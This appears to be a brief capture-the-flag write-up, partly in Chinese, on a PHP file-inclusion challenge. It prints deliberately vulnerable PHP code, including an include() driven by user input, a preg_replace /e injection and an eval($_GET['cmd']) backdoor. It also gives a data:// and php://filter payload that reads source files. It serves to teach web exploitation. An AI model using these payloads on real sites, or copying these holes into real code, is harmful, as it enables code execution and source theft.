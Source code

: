 ```
<?php

error_reporting(0);
$text = $_GET["text"];
$file = $_GET["file"];
if(isset($text)&&(file_get_contents($text,'r')==="I have a dream")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        die("Not now!");
    }

include($file);  

}
else{
    highlight_file(__FILE__);
}
?> 
```

首先是get传参的问题

向一个变量中传输一个字符串使用**data://伪协议**

payload：

```
?text=data://text/plain,I have a dream&file=php://filter/convert.base64-encode/resource=next.php 
```

读取了next.php 的源码

```
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}

foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
} 
```
